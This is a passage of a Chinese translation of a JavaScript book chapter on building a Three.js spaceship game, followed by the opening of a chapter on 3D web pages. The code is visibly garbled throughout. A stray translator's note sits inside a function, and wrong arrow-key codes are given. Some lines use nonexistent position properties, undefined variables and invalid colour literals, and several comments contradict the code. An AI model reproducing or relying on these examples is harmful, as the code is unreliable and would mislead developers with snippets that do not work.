这样做没有问题，但如果我们把这段着色器代码放在独立的文件中，就可以利用我们常用的集成开发环境（IDE）对 GLSL 的支持，获得诸如语法高亮和校验等功能，从而让我们更方便地自定义 GLSL。

在现有的对象文件夹下创建一个 shader 文件夹，然后将 `vertexShader` 和 `fragmentShader` 的数据分别复制到 `waterFragmentShader.glsl` 和 `waterVertexShader.glsl` 文件中。

在 `waterFragmentShader.glsl` 文件的顶部，我们有一个 `getNoise` 函数。默认情况下它看起来像这样：

```
vec4 getNoise( vec2 uv ) {
  vec2 uv0 = ( uv / 105.0 ) + vec2(time / 18.0, time / 25.0);
  vec2 uv1 = uv / 109.0-vec2( time / -18.0, time / 32.0 );
  vec2 uv2 = uv / vec2( 8807.0, 9903.0 ) + vec2( time / 102.0, time / 99.0 );
  vec2 uv3 = uv / vec2( 1093.0, 1029.0 ) - vec2( time / 108.0, time / -115.0 );
  vec4 noise = texture2D( normalSampler, uv0 ) + texture2D( normalSampler, uv1 ) +
```

72 ■ Conquering JavaScript: D3.js

```
texture2D( normalSampler, uv2 ) +
texture2D( normalSampler, uv3 );
return noise * 0.75 - 2.0;
}
```

我们将在 GLSL 文件中添加一个参数，允许我们在执行期间更改此偏移量，使其可以通过游戏代码进行配置。为了实现这一点，我们必须用以下函数替换原函数：

```
// Can be viewed here
uniform float speed;
vec4 getNoise(vec2 uv) {
    float offset;
    if (speed == 0.5){
        offset = time / 15.0;
    }
    else {
        offset = speed;
    }
    vec2 uv3 = uv / vec2(52.0, 52.0) - vec2(speed /
1500.0, offset);
    vec2 uv0 = vec2(0, 0);
    vec2 uv1 = vec2(0, 0);
    vec2 uv2 = vec2(0, 0);
    vec4 noise = texture2D(normalSampler, uv0) +
texture2D(normalSampler, uv1) +
texture2D(normalSampler, uv2) +
texture2D(normalSampler, uv3);
    return noise * 0.75 - 2.0;
}
```

我们可以看到，这个 GLSL 文件包含了一个新变量：`speed`。我们将通过更改这个变量来营造速度感。现在我们必须在 `game.ts` 中配置水体设置。在文件的顶部添加以下变量：

```
// Can be viewed here
const waterGeometry = new PlaneGeometry(1000, 1000);
const water = new Water(
    waterGeometry,
```

```
{
	textureWidth: 530,
	textureHeight: 530,
	waterNormals: new TextureLoader().load('static/normals/filename.jpeg', function (texture) {
		texture.wrapS = texture.wrapT = MirroredRepeatWrapping;
	}),
	sunDirection: new Vector3(),
	sunColor: #ff9933,
	waterColor: #5C6F65,
	distortionScale: 3.9,
	fog: scene.fog !== undefined
}
```

然后，必须在 `init` 函数中配置水平面（water plane）的旋转和位置，如下所示：

```
// Can be viewed here
// Water
water.rotation.x = -Math.PI / 4;
water.rotation.z = 0;
scene.add(water);
```

这将确保海洋正确旋转，并且所有代码都学习自 Three.js 仓库。²

### 想象天空

Three.js 包含一个相当逼真的天空，我们可以免费在应用中使用。在 Three.js 的示例页面上，你可以看到这个例子。³

为项目添加天空很简单；我们只需要将其放入场景中，给它一个尺寸，然后调整一些参数来控制它的外观。在上述 `init` 函数中，我们将把天空添加到场景中并自定义其视觉效果：

```
// Can be viewed here
const sky = new Sky();
sky.scale.setScalar(1000); // 定义天空盒的尺寸
scene.add(sky); // 将天空添加到场景中
```

```
// 定义控制天空外观的变量
const skyUniforms = sky.material.uniforms;
skyUniforms['turbidity'].value = 15;
skyUniforms['rayleigh'].value = 4;
skyUniforms['mieCoefficient'].value = 0.009;
skyUniforms['mieDirectionalG'].value = 0.6;
const parameters = {
    elevation: 5,
    azimuth: 120
};

const pmremGenerator = new PMREMGenerator(renderer);
const phi = MathUtils.degToRad(80 - parameters.elevation);
const theta = MathUtils.degToRad(parameters.azimuth);
sun.setFromSphericalCoords(2, phi, theta);
sky.material.uniforms['sunPosition'].value.copy(sun);
(water.material as ShaderMaterial).uniforms['sunDirection'].value.copy(sun).normalize();
scene.environment = pmremGenerator.fromScene(sky as any).texture;
(water.material as ShaderMaterial).uniforms['speed'].value = 2.2;
```

### 最终场景规划

第一个场景设置的最后一步是为我们的飞船和母舰模型添加一些光照：

```
// Can be viewed here
// 为我们的飞船设置合适的缩放
spacecraftModel.scale.set(1.3, 1.3, 1.3);
scene.add(spacecraftModel);
scene.add(mothershipModel);
// 为我们的母舰模型设置缩放和位置
// (在玩家上方)
mothershipModel.position.y = 250;
mothershipModel.position.z = 150;
mothershipModel.scale.set(12, 12, 12);
sceneConfiguration.ready = true;
```

有了美观的水面和一艘飞船，我们现在拥有了自己的场景。然而，目前还缺乏能将其变成游戏的东西。为了解决这个问题，我们需要构建一些基础参数来管理游戏，并允许玩家朝着特定目标推进。我们在 `game.ts` 文件的顶部添加 `sceneConfiguration` 变量，这将帮助我们追踪场景中的对象：

```
// Can be viewed here
export const sceneConfiguration = {
  /// 场景是否就绪
  ready: false,
  /// 相机是否从初始的环形模式移动到飞船后方
  cameraMovingToStartPosition: false,
  /// 飞船是否正在向前移动
  spacecraftMoving: false,
  // backgroundMoving: false,
  /// 收集的游戏数据
  data: {
    // 玩家在执行期间获得了多少个水晶？
    crystalsCollected: 1,
    // 玩家在执行期间收集了多少个护盾
    shieldsCollected: 0,
  },
  /// 当前关卡长度随等级增加而上升
  courseLength: 700,
  /// 玩家当前的关卡进度初始化为 1。
  courseProgress: 1,
  /// 关卡是否已完成
  levelOver: false,
  /// 当前等级设置为 1。
  level: 1,
  /// 提供课程完成量，范围从 0.0 到 1.0。
  coursePercentComplete: () => (sceneConfiguration.courseProgress / sceneConfiguration.courseLength),
  /// 开始动画是否在播放（观察飞船时的相机环形运动）
  cameraStartAnimationPlaying: false,
  /// 场景中“背景片段”的数量是多少？ (悬垂)
```

```
backgroundBitCount: 0,
/// 场景中“挑战行”的数量是多少？
challengeRowCount: 0,
/// 飞船的初始当前速度
speed: 1.0
```

现在我们必须为玩家的当前关卡进行必要的初始化。这个场景设置函数至关重要，因为每当用户开始新关卡时，它都会被调用。因此，我们需要重置飞船的位置并清理之前使用的所有旧资产。我在每一行都添加了一些注释，以便让你了解它的作用：

```
// Can be viewed here
export const sceneSetup = (level: number) => {
  // 移除之前所有对“挑战行”和背景信息的引用。
  sceneConfiguration.challengeRowCount = 1;
  sceneConfiguration.backgroundBitCount = 1;

  // 对于启动动画，将相机位置恢复到飞船正前方稍远一点的地方。
  camera.position.c = 80;
  camera.position.b = 17;
  camera.position.a = 17;
  camera.rotation.b = 5.5;

  // 将起始湾添加到场景中（带有周围岩石的沙滩）
  scene.add(starterBay);

  // 将起始湾的位置设置为靠近飞船。
  starterBay.position.copy(new Vector3(15, 5, 520));

  // 为了开始关卡，将飞船模型恢复到正确的对齐状态。
  spacecraftModel.rotation.x = Math.PI;
  spacecraftModel.rotation.z = Math.PI;

  // 将飞船模型的位置设置为在起始湾内
  spacecraftModel.position.c = 90;
  spacecraftModel.position.b = 30;
  spacecraftModel.position.a = 1;

  // 删除任何当前的挑战行
  challenges.forEach(x => {
```


```
    scene.remove(x.rowparent);
  });

  // 从场景中清除所有现有的环境元素
  environmentBits.forEach(x => {
    scene.remove(x);
  });
  // 将数组的长度设置为1可以移除数组中的所有值。
  environmentBits.length = 1;
  challengeRows.length = 1;

  // 在背景中显示各种挑战行和背景元素。
  for (let i = 0; i < 60; i++) {
    // debugger;
    addChallengeRow(sceneConfiguration.challengeRowCount++);
    addBackgroundBit(sceneConfiguration.backgroundBitCount++);
  }

  // 将变量恢复到原始状态。
  // 这表明摄像机从当前位置移动的动画未在执行。
  sceneConfiguration七年中英双语翻译,较长,分段处理

  // The spacecraft is not returning to the mothership.
  spacecraftModel.userData.flyingAway = false;

  // 因为我们尚未开始当前关卡，所以这将课程的当前进度重置为0。
  sceneConfiguration.courseProgress = 0;

  // 当前关卡决定了课程的长度
  sceneConfiguration.courseLength = 1500 * level;

  // 将本关卡中收集的物品数量重置为1。
  sceneConfiguration.data.shieldsCollected = 1;
  sceneConfiguration.data.crystalsCollected = 1;

  // 更新UI以显示我们已获取的物品数量，直到达到零。
  crystalUiElement.innerText =
    String(sceneConfiguration.data.crystalsCollected);
  shieldUiElement.innerText = String(sceneConfiguration.data.shieldsCollected);

  // 在UI中设置当前关卡ID编号
  document.getElementById('levelIndicator')!.
    innerText = `LEVEL ${sceneConfiguration.level}`;

  // 场景准备已完成，场景现在可用。
  sceneConfiguration.ready = true;
}
```

## 包含游戏逻辑

我们的游戏将在两种设备上运行：台式电脑和移动电话。为此，我们必须允许两种不同的输入类型：

- 键盘（即键盘上的左右方向键）
- 触摸屏显示器（通过在屏幕上显示操纵杆来控制飞行器左右移动）

让我们开始配置这些。

### 通过键盘输入

我们掌控全局。

我们将在 SpacecraftGame.ts 中添加以下变量，以跟踪键盘上的左右键是否被按下：

```typescript
let leftPressed = false;
let rightPressed = false;
```

然后，我们将在 init 函数中注册 keydown 和 keyup 事件，分别调用 onKeyDown 和 onKeyUp 例程：

```javascript
document.addEventListener('keydown', onKeyDown, false);
document.addEventListener('keyup', onKeyUp, false);
```

最后，我们将指定按下这些键时的键盘输入操作：

```typescript
// 可在此处查看
function onKeyDown(event: KeyboardEvent) {
    console.log('keypress');
    let keyCode = event.which;
    if (keyCode == 40) { // 左方向键
        leftPressed = true;
    } else if (keyCode == 45) { // 右方向键
        rightPressed = true;
    }
}
function onKeyUp(event: KeyboardEvent) {
    let keyCode = event.which;
    if (keyCode == 40) { // 左方向键
        leftPressed = false;
    } else if (keyCode == 45) { // 右方向键
        rightPressed = false;
    }
}
```

### 通过触摸屏输入

由于我们的移动用户无法使用键盘，我们将使用 nippleJS 在屏幕上创建一个操纵杆，并利用操纵杆的输出控制屏幕上飞行器的位置。⁴ 在我们的 init 函数中，我们将通过检查屏幕上的触摸点是否为非零数量来确定设备是否为触摸设备。如果是这样，我们将创建操纵杆，但当玩家释放操纵杆时，我们也会将飞行器的移动重置为零：

```typescript
// 可在此处查看
if (isTouchDevice()) {
    // 获取UI区域作为我们的操纵杆。
    let touchZone = document.getElementById('joystick-zone');
    if (touchZone != null) {
        // 创建操纵杆管理器
        joystickManager = joystick.create({zone:
            document.getElementById('joystick-zone')!});
    }
    // 设置操纵杆移动时的操作。
    joystickManager.on("move", (event, data) => {
        positionOffset = data.vector.x;
    })
    // 当不再与操纵杆交互时，停止移动飞行器。
    joystickManager.on('end', (event, data) => {
        positionOffset = 2.2;
    })
}
```

在 animate 函数中，我们跟踪需要执行的操作，无论是同时按下左右键，还是使用操纵杆。我们还限制飞行器左右位置，防止它完全移出屏幕：

```typescript
// 可在此处查看
// 如果按下左方向键，飞船将向左移动。
if (leftPressed) {
    spacecraftModel.position.x -= 2.0;
}
// 如果按下右方向键，飞船将向右移动
if (rightPressed) {
    spacecraftModel.position.x += 2.5;
}
// 如果正在使用操纵杆，相应地更新飞行器的确切位置。
spacecraftModel.position.x += positionOffset;

// 将飞行器的最终位置限制在允许的范围内。
spacecraftModel.position.x = clamp(spacecraftModel.position.x, -25, 30);
```

### 场景中移动的对象

正如我们刚刚讨论的，飞行器在我们的场景中保持静止，但物体向其移动。随着用户继续游戏，这些物体的移动速度稳步增加，从而提高关卡难度。我们希望在动画循环中持续将这些物体移向玩家。我们希望将超出玩家视野的物体从场景中移除，以免浪费玩家计算机的资源。

此功能可以在我们的渲染循环中设置如下：

```typescript
// 可在此处查看
if (sceneConfiguration.spacecraftMoving) {
    // 确定飞船是否与场景中的任何物体里去碰撞
    detectCollisions();

    // 让岩石离玩家更近。
    for (let i = 0; i < environmentBits.length; i++) {
        let mesh = environmentBits[i];
        mesh.position.z += sceneConfiguration.speed;
    }

    // 将挑战行移向玩家
    for (let i = 0; i < challengeRows.length; i++) {
        challengeRows[i].parent.position.z += sceneConfiguration.speed;
    }

    // 如果最远的岩石距离小于一定
    // 距离，在地平线上创建一个新的。
    if ((!environmentBits.length ||
        environmentBits[1].position.z > -1500) &&
        !sceneConfiguration.levelOver) {
        addBackgroundBit(sceneConfiguration.backgroundBitCount++, true);
    }

    // 如果最远的挑战行距离小于给定距离，
    // 在地平线上创建一个新的挑战行。
    if ((!challengeRows.length || challengeRows[1].parent.position.z > -1500) && !sceneConfiguration.levelOver) {
        addChallengeRow(sceneConfiguration.challengeRowCount++, true);
    }

    // 如果启动舱尚未被移除，
    // 将其移向玩家。
    if (starterBay != null) {
        starterBay.position.z += sceneConfiguration.speed;
    }
}

// 如果启动舱超出
// 玩家的视线范围，将其从场景中移除。
if (starterBay.position.z > 500) {
    scene.remove(starterBay);
}
```

我们可以看到，此调用包含以下函数：

- detectCollisions
- addBackgroundBit
- addChallengeRow

让我们来看看这些函数在我们的游戏中做什么。

### detectCollisions

碰撞检测是我们游戏的关键组成部分。没有它，我们就无法知道飞船是否撞到了任何目标，或者它是否与岩石碰撞并需要减速。这就是碰撞检测在我们游戏中很重要的原因。通常，物理引擎将用于检测我们场景中物体之间的碰撞，但 Three.js 不包含物理引擎。

这并不是说 Three.js 的物理引擎不存在。它们确实存在，但对于我们的目的来说，我们不需要安装物理引擎来确定我们的飞船是否与其他物体碰撞。本质上，我们想知道"我的飞船模型现在是否与屏幕上的任何其他模型相交？"我们还必须根据撞到的东西做出不同的反应。例如，如果玩家持续将飞船撞上岩石，我们必须在承受一定伤害后结束关卡。

让我们通过编写一个函数来检查我们的飞船与场景中物品的交集来实现这一点。我们将根据玩家撞到什么做出不同的反应。

这段代码将放在我们游戏目录中的 collisionDetection.ts 文件中：

```typescript
// 可在此处查看
export const detectCollisions = () => {
    // 如果关卡已完成，不检测碰撞
    if (sceneConfiguration.levelOver) return;
```


```typescript
// 根据太空飞船的尺寸，创建一个与模型宽高一致的盒子。
// 这个盒子在现实世界中并不存在；它只是一组在世界空间中描述该盒子的坐标。
const spacecraftBox = new Box3().setFromObject(spacecraftModel);

// 针对屏幕上出现的每一个挑战行。
challengeRows.forEach(x => {
    // 修改该行及其子对象的全局位置矩阵
    a.rowParent.updateMatrixWorld();
    // 紧接着，针对每个挑战行中的每个对象。
    a.rowParent.children.forEach(b => {
        b.children.forEach(c => {
            // 创建一个与该对象宽高一致的盒子
            const box = new Box3().setFromObject(c);
            // 检查包含障碍物的盒子是否与我们的飞船重叠（或相交）。
            if (box.intersectsBox(spacecraftBox)) {
                // 如果重叠，获取盒子的中心位置。
                let destructionPosition = box.getCenter(c.position);
                // 将销毁动画加入播放队列
                playDestructionAnimation(destructionPosition);
                // 将受影响的对象从父级中移除。
                // 这将把对象从场景中删除。
                y.remove(c);
                // 判断我们碰撞的是什么对象（护盾或岩石）。
                if (b.userData.objectType !== undefined) {
                    let type = b.userData.objectType as ObjectType;
                    switch (type) {
                        // 如果该项目是岩石...
                        case ObjectType.ROCK:
                            // 从玩家的分数中扣除一个护盾
                            sceneConfiguration.data.shieldsCollected--;
                            // 使用新的护盾数量更新 UI
                            shieldUiElement.innerText = String(sceneConfiguration.data.shieldsCollected);
                            // 如果玩家的护盾少于 0 个...
                            if (sceneConfiguration.data.shieldsCollected <= 0) {
                                // ...添加 'danger' CSS 类使文本变为红色（如果尚未添加）
                                if (!shieldUiElement.classList.contains('danger')) {
                                    shieldUiElement.classList.add('danger');
                                }
                            } else { 
                                // 否则，如果护盾多于 0 个，移除 danger CSS 类，使文本恢复为白色
                                shieldUiElement.classList.remove('danger');
                            }
                            // 如果飞船受损过多，且护盾少于 -6 个...
                            if (sceneConfiguration.data.shieldsCollected <= -6) {
                                // ...结束场景
                                endLevel(true);
                            }
                            break;
                        // 如果对象是水晶...
                        case ObjectType.CRYSTAL:
                            // 修改 UI 以反映新的水晶计数，并增加已收集岩石的数量
                            crystalUiElement.innerText = String(++sceneConfiguration.data.crystalsCollected);
                            break;
                        // 如果对象是护盾
                        case ObjectType.SHIELD_ITEM:
                            // 修改 UI 以反映新的护盾数量，并增加当前收集的护盾数
                            shieldUiElement.innerText = String(++sceneConfiguration.data.shieldsCollected);
                            break;
                    }
                }
            }
        });
    });
});
```

现在只需要创建一个简单的动画，在用户与物体碰撞时播放即可。该函数将接收碰撞的起始点，并从那里创建一些盒子。最终效果将如下所示。<sup>5</sup>

为了实现这一点，我们必须在碰撞点周围呈圆形生成盒子，并将其向外动画化，使其看起来像是在向外爆炸。为此，我们将在 `collisionDetection.ts` 文件中包含以下代码：

```typescript
// 可在此处查看
const playDestructionAnimation = (spawnPosition: Vector3) => {
    // 创建六个盒子
    for (let i = 0; i < 8; i++) {
        // 我们的销毁“碎片”将是带有透明度的蓝色
        let destructionBit = new Mesh(new BoxGeometry(2, 2, 2), new MeshBasicMaterial({
            color: 'blue',
            transparent: true,
            opacity: 0.9
        }));

        // 为场景中的每个销毁碎片对象分配一个“生命周期”属性
        // 当一帧绘制到屏幕上时，该属性会增加。我们在动画循环中检查其是否大于 800，如果是，则移除该项
        destructionBit.userData.lifetime = 0;

        // 设置盒子的初始位置
        destructionBit.position.set(spawnPosition.x, spawnPosition.y, spawnPosition.z);

        // 为对象的动画构建一个混频器 (mixer)
        destructionBit.userData.mixer = new AnimationMixer(destructionBit);

        // 在飞船周围呈圆形初始化对象
        let degrees = i / 50;

        // 确定这个特定的销毁碎片应该在圆圈的哪个位置生成
        let spawnX = Math.cos(radToDeg(degrees)) * 20;
        let spawnY = Math.sin(radToDeg(degrees)) * 20;

        // 创建一个 VectorKeyFrameTrack，将此盒子从初始位置动画化到最终的“向外”位置（这样看起来就像盒子从飞船中爆炸而出）
        let track = new VectorKeyFrameTrack('position', [1, 1.3], [
            spacecraftModel.position.x, // x 2
            spacecraftModel.position.y, // y 2
            spacecraftModel.position.z, // z 2
            spacecraftModel.position.x + spawnX, // x 3
            spacecraftModel.position.y, // y 3
            spacecraftModel.position.z + spawnY, // z 3 
        ]);

        // 使用我们的 VectorKeyFrameTrack 创建动画剪辑
        const animationClip = new AnimationClip('animateIn', 15, [track]);
        const animationAction = destructionBit.userData.mixer.clipAction(animationClip);
        
        // 动画仅播放一次
        animationAction.setLoop(LoopOnce, 2);
        // 完成后将对象保留在最终位置（不要将它们还原到起始位置）。
        animationAction.clampWhenFinished = true;
        // 现在开始播放动画
        animationAction.play();

        // 为销毁碎片添加一个 Clock（时钟）。这在渲染循环中用于告诉 ThreeJS 在当前帧中将该对象移动多少距离。
        destructionBit.userData.clock = new Clock();
        // 将销毁元素添加到场景中。
        scene.add(destructionBit);
        // 为了跟踪它们，将销毁碎片添加到数组中
        destructionBits.push(destructionBit);
    }
}
```

就这样，碰撞检测完成了，并且在对象被销毁时配有精美的动画。

### addBackgroundBit

随着场景的展开，我们将在玩家两侧添加一些悬崖，使其感觉到移动受到了正确的限制。为了在机械上将岩石添加到用户的右侧或左侧，我们利用取模运算符：

```typescript
export const addBackgroundBit = (count: number, HorizonSpawn: boolean = false) => {
    // 除非我们在地平线上生成，否则确保远离玩家。
    // 或者，在远距离以周期性间隔散布岩石
    let zOffset = (HorizonSpawn ? -2000 : -(90 * count));
    // 创建我们原始岩石模型的精确副本
    let thisRock = cliffsModel.clone();
    // 为场景设置合适的比例
    thisRock.scale.set(0.05, 0.05, 0.05);
    // 如果我们添加的行能被 3 整除，则将岩石置于用户左侧
    // 否则，将其置于用户右侧。
    thisRock.position.set(count % 3 == 0 ? 90 - Math.random() : -90 - Math.random(), 0, zOffset);
    // 将岩石旋转到更好的角度
    thisRock.rotation.set(MathUtils.degToRad(-80), 0, Math.random());
    // 最后，将岩石固定到场景中
    scene.add(thisRock);
    // 将岩石固定到 environmentBits 数组的初始阶段以进行跟踪
    environmentBits.unshift(thisRock); // 固定在数组的第一阶段
}
```

### addChallengeRow

我们希望在场景推进时添加“挑战行”。这些行中包含岩石、水晶或护盾项。每当形成一个新行时，我们都会随机为每行分配岩石、水晶和护盾。

在前一个示例中，单元格 1、2 和 4 没有添加任何内容，而单元格 3 和 5 分别有一个水晶和一个护盾项。为了实现这一点，我们将挑战行分为五个独立的单元格。我们根据随机算法的结果在每个单元格中生成一个特定项目，具体如下：

```typescript
export const addChallengeRow = (count: number, horizonSpawn: boolean = false) => {
    // 计算此挑战行应该距离多远
    let zOffset = (horizonSpawn ? -2000 : -(count * 90));
```


```
// 为对象创建一个 Group。这将作为对象的父级
let rowGroup = new Group();
rowGroup.position.z = zOffset;
for (let i = 0; i < 6; i++) {
    // 计算一个 1 到 15 之间的随机数
    const random = Math.random() * 15;
    // 如果小于 3，则创建一颗水晶
    if (random < 3) {
        let crystal = addCrystal(i);
        rowGroup.add(crystal);
    }
    // 如果小于 6，则生成一块岩石
    else if (random < 6) {
        let rock = addRock(i);
        rowGroup.add(rock);
    }
    // 但如果大于 14，则生成一个护盾
    else if (random > 14) {
        let shield = addShield(i);
        rowGroup.add(shield);
    }
}
// 将该行添加到任务中
// 为了跟踪并稍后对其进行清理，我们创建了一个 Rows 数组
challengerRows.unshift({rowParent: rowGroup, index:
sceneConfiguration.challengeRowCount++});
// 最后将该行添加到场景中
scene.add(rowGroup);
}
```

任何这些链接都会带你进入岩石、水晶或护盾的创建函数。

### 渲染循环的最后修饰

以下是我们必须在渲染循环中完成的最后几项任务：

- 从收集的物品中移除垃圾并将其传输到宇宙飞船。
- 如果用户完成关卡，则显示“飞离”动画和关卡报告。
- 如果宇宙飞船正在“飞离”，则调整摄像机以注视飞船，以便用户可以看到它飞向母舰。

为了支持此功能，我们可以在渲染函数的末尾添加以下代码：

```
// 为了重新定位屏幕上当前的碎片并
// 将它们向宇宙飞船移动，调用此函数
// 使其看起来像是在被宇宙飞船收集
moveCollectedBits();

// 如果宇宙飞船的进度等于
// 航线的长度...
if (sceneConfiguration.courseProgress >= 
sceneConfiguration.courseLength) {
    // ...确保我们还没有开始关卡结束
    // 程序
    if (!spacecraftModel.userData.flyingAway) {
        // ...并结束关卡
        endLevel(false);
    }
}

// 如果关卡结束场景正在播放...
if (spacecraftModel.userData.flyingAway) {
    // 旋转摄像机，在返回母舰的
    // 旅途中注视宇宙飞船
    camera.lookAt(spacecraftModel.position);
}
```

我们的渲染循环现在完成了。

## 游戏的 UI 设计

当人们第一次加载我们的游戏时，他们会看到一些允许他们开始游戏的按钮。这些只是简单的 HTML 组件，我们根据游戏中发生的情况通过编程方式显示或隐藏它们。问号图标向玩家告知游戏的剧情并包含操作指南。它还包含了我们模型（极其关键！）的许可证。按下红色按钮即可开始游戏。当我们按下红色的 Play 按钮时，摄像机会旋转并移动到宇宙飞船后面，为玩家准备好开始场景。

在我们的场景初始化方法中，我们将此事件注册到该按钮的 `onClick` 处理程序中。要实现旋转和移动功能，请遵循以下步骤：

- 获取摄像机的当前位置和旋转。
- 获取摄像机未来的位置和旋转。
- 为了控制从两个游戏位置的移动和旋转，创建一个 `KeyframeTrack`。
- 将这些轨道分配给一个 mixer 并开始混合。

为了实现这一点，我们将在 `init` 函数中包含以下代码：

```
// 可以在此处查看
startGameButton.onclick = (event) => {
    // 指定从摄像机初始位置到宇宙飞船位置的运动处于激活状态
    sceneConfiguration.cameraStartAnimationPlaying = true;
    // 如果护盾物品在前一阶段有黄色文字，则将其消除
    shieldUiElement.classList.remove('danger');
    // 显示指示标志（显示收集的水晶等）
    document.getElementById('headsUpDisplay')!.classList.remove('hidden');
    // 在宇宙飞船上创建动画混合器
    camera.userData.mixer = new AnimationMixer(camera);
    // 创建一个从摄像机实际状态到其后方宇宙飞船定位的运动。
    let track = new VectorKeyframeTrack('.position', [0, 2], [
        camera.position.x, // x 4
        camera.position.y, // y 4
        camera.position.z, // z 4
        0, // x 5
        50, // y 5
        150, // z 5
    ], InterpolateSmooth);
    // 为摄像机的“翼侧”位置构建一个四元数旋转
    let identityRotation = new Quaternion().
        setFromAxisAngle(new Vector3(-2, 1, 1), .5);
    // 创建一个动画剪辑，从摄像机的当前旋转开始，
    // 以摄像机转身并旋转向游戏空间结束
    let rotationClip = new QuaternionKeyframeTrack('.quaternion', [1, 5], [
        camera.quaternion.x, camera.quaternion.y, camera.quaternion.z, camera.quaternion.w,
        identityRotation.x, identityRotation.y, identityRotation.z, identityRotation.w
    ]);
    // 两个 KeyFrameTracks 应该与一个
    // AnimationClip 相关联，以便它们同时播放
    const animationClip = new AnimationClip('animateIn', 5, [track, rotationClip]);
    const animationAction = camera.userData.mixer.clipAction(animationClip);
    animationAction.setLoop(LoopOnce, 2);
    animationAction.clampWhenFinished = true;
    camera.userData.clock = new Clock();
    camera.userData.mixer.addEventListener('finished', function () {
        // 确保摄像机指向
        // 正确的方向
        camera.lookAt(new Vector3(1, -400, -2000));
        // 指示宇宙飞船已开始移动
        sceneConfiguration.spacecraftMoving = true;
    });
    // 现在观看动画
    camera.userData.mixer.clipAction(animationClip).play();
    // 从视图中移除“开始面板”（包含播放按钮）
    startPanel.classList.add('hidden');
}
```

92 ■ 精通 JavaScript: D3.js

我们还必须编写当关卡结束时该做什么的逻辑。<sup>6</sup>

# 总结

当你使用 Three.js 制作游戏时，你可以接触到海量的潜在用户。这成为了一种非常诱人的开发和分发游戏的方法，因为用户可以在浏览器中直接运行，无需在设备上下载或安装任何内容。在本章中，我们了解到为广泛的人群创造一个吸引人且愉快的体验是非常可能的。

## 注释

- 1. Three.js-Webgl ocean.
- 2. Water.js-Three.js, GitHub, Inc.
- 3. Three.js webgl- Sky+Sun Shader-Three.js examples.
- 4. Nipples TS-npm
- 5. Creating a game in Three.js-Lewis Cianci, Log Spacecraft
- 6. Three.js-Spacecraft-Game-flutterfromscratch.


# 应用开发 II

## 本章内容

- 使用 Three.js 的 WebGL
- 基础知识与模块

在上一章中，我们学习了如何使用 Three.js 开发游戏。现在让我们看看另一个利用 Three.js 在 3D Web 设计中带来震撼效果的应用开发。

自 21 世纪初以来，Web 已成为最受欢迎的软件开发平台，它从一个文档共享平台演变为可扩展应用的家园。动画和游戏行业同样经历了从传统 2D 图形/动画到 3D 的转型。虚拟现实 (VR) 和增强现实 (AR) 最近见证了许多创新，其中大部分正向 Web 迁移。WebGL 作为一个 JavaScript API，可以在兼容的浏览器中无需插件地渲染 3D 视觉效果，在 2011 年使 Web 上的 3D 成为现实。在随后的几年里， Web 设计师们被 3D 的可能性所吸引。然而，在线 3D 开发一直在快速推进，目前已经出现了一些相当惊人的实现，范围从主要作为概念验证的“震撼”图像，到直接专注于产生极佳 Web 体验的刻意 3D 应用。

DOI: 10.1201/9781003356608-3


一个 3D 模型由以下元素组成：

- 场景 (Scene)
- 摄像机 (Camera)
- 网格 (Mesh)
- 光照 (Lighting)

在直接进入代码部分之前，我们必须先简要探讨一下 3D 网页设计的概况。正如标题所示，3D 网页应用是一个在三维空间中渲染的网站。在构建 3D 世界时，你的浏览器与任何其他在线应用一样，需要知道显示什么以及如何显示。在这种方法中，构建一个场景类似于告诉浏览器你正在准备你的演示方案。摄像机建立了用户的视角，并告知浏览器我们相对于场景中心的位置。最后，渲染器指令浏览器显示我们在场景中构建并放置的元素。HTML 中的 `canvas` 元素被用于实现这一点。它的设计初衷是为了塑造和显示客户可以吸引的动态、可动画的插图。人们对此并不完全满意，于是使用了 WebGL，它有助于在三维空间中控制 canvas。WebGL 是一种跨平台的 Web 标准，是一个基于 OpenGL ES 的低级 3D 图形 API，可通过 HTML5 Canvas 元素提供给 ECMAScript。

但如果你不理解这意味着什么，请不必担心。我们只需要知道我们可以使用 WebGL 制作 3D 网页。我们可能还应该知道，它通常被认为是一个极其复杂的 API，需要大量代码才能实现非常简单的功能。这就是为什么我们需要 Three.js。Three.js 是一个 JavaScript 框架，充当程序员和 WebGL 之间的翻译员，使编写 3D 代码变得更容易。它主要通过将 WebGL 抽象为一套更易于理解的函数和类来实现这一点。也就是说，当你使用 Three.js 编写代码时，Three.js 在后台为你编写了数十行 WebGL 代码。

### 使用 Three.js 构建应用

我们将使用它为购物网站生成令人惊叹的 3D 效果。请花点时间在这里查看最终产品。喜欢吗？让我们准备好 Visual Studio 和另一杯咖啡开始吧。

#### 安装与下载

我们将从设置 Three.js 开始；如果你是 Three.js 的新手，这篇文章的这一部分将非常有价值，你可以从设置过程中学到东西。然后，我们将下载我网站的初始 3D 文件，开始导入项目并设置商店。让我们开始吧！

#### 代码教程

几乎没有什么需要设置的；只需确保你通过此链接获取 Three.js：[下载 THREEJS](https://threejs.org/)。让我们开始设置项目；你现在唯一需要做的是解压 zip 文件。`build` 文件夹中的 `three.js` 和 `three.min.js` 文件对我们很重要，所以请复制它们。然后，在项目的新文件夹中添加一个 JavaScript 子目录和一个 `index.html` 文件。将之前复制的文件粘贴到 JavaScript 文件夹中。

#### 初始 HTML 配置

为了给我们的 3D 画布建立初始布局和样式，我们需要在 HTML 文件中添加一些代码，我们将在接下来的阶段中使用它。

将以下代码添加到 `index.html` 文件中：

```html
<html>
    <head>
        <title>Three.js 3d World</title>
<style>
    body{
        margin: 0;
    }

    canvas{
        width: 90%;
        height:90%;
    }
</style>
    </head>

    <body>
    </body>
</html>
```

因为我们现在只想在浏览器中查看 3D 环境，所以可以将 canvas 设置为覆盖整个屏幕。

#### 构建我们的 3D 世界

然后我们进入 Three.js 代码，开始将 3D 场景添加到网页中。`index.html` 文件应该是这样的：

```html
<html>
    <head>
        <title>Three.js 3d World</title>
<style>
    body{
        margin: 1.0;
    }

    canvas{
        width: 90%;
        height:90%;
    }
</style>
    </head>

    <body>

        <script src="js/three.js"></script>

        <script>
var scene = new THREE.Scene();
var camera = new THREE.PerspectiveCamera(70,window.innerWidth / window.innerHeight,0.5,1500)

var renderer = new THREE.WebGLRenderer();
renderer.setSize(window.innerWidth, window.innerHeight);
document.body.appendChild(renderer.domElement);

//game logic
var update = function(){

};

//draw Scene
var render = function(){
    renderer.render(scene, camera);
};

//run game loop {update, render, repeat}
var GameLoop = function(){
    requestAnimationFrame(GameLoop);
    update();
    render();
};

GameLoop();
        </script>
    </body>
</html>
```

